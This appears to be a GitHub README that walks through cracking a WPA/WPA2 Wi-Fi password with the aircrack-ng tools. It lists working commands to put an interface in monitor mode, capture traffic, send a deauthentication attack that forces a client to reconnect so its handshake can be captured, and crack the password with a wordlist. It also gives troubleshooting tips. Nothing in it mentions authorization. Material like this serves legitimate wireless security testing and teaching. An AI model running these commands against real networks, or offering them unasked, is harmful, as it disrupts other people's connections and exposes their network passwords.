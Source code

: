 # Aircrack-ng (WPA/WPA2)

Using just the `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

```
![four-way](../../images/fourway-handshake.png)

```bash
# Stop airodump-ng when it appears
qq

# Crack the password
sudo aircrack-ng -0 -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

![four-way](../../images/cracked-password-wpa.png)

* If password is not found:
    * Make sure that a four-way handshake is captured
    * Use a better password file

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
